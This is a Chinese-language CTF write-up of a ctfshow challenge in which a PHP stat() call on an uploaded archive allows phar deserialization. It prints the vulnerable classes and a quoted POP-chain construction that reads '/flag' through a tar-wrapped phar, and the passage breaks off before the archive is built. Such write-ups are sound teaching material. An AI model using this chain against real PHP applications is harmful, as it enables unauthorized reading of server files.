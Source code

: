 有2个页面，一是附件上传，只能上传压缩包格式的文件，一是文件查询

上传之后在查询页面抓包发现了部分源码：

```php
class View {
    public $fn;
    public function __invoke(){
        $text = base64_encode(file_get_contents($this->fn));
        echo "<script>alert('".$text."');self.location=document.referrer;</script>";
    }
}
class Fun{
    public $fun = ":)";
    public function __toString(){
        $fuc = $this->fun;
        $fuc();
        return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
    }
    public function __destruct()
    {
        echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
    }
}
$filename = $_POST["file"];
$stat = @stat($filename);


```

压缩包还有相关函数猜测是phar反序列化？出去打球了，等一手wp

打球回来，wp已出，[CTFshow 吃瓜杯 WP汇总 (shimo.im)](https://shimo.im/docs/gwpcxkryVJwyJVHR/read)

> 的确是phar，`stat()` 这个php函数用的很少, 用于返回关于文件的信息, 但是它也可以触发 phar 文件, 这里主要是考察了通过 zip 或 tar 文件包装的phar文件进行触发
>
> tar：
>
> ```php
> <?php
>  class View {    
>  public $fn;    
>  public function __invoke(){        
>      $text = base64_encode(file_get_contents($this->fn));
>      echo "<script>alert('".$text."');self.location=document.referrer;</script>";
>  }
> }
> class Fun{    
>  public $fun = ":)";
>  public function __toString(){
>      $fuc = $this->fun;
>      $fuc();
>      return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
>  }
>  public function __destruct()    {
>      echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
>  }
> }
> $a = new View();
> $a->fn = '/flag';
> $b = new Fun();
> $b->fun = $a;
> $c = new Fun();
> $c->fun = $b;
> @unlink("phar.tar");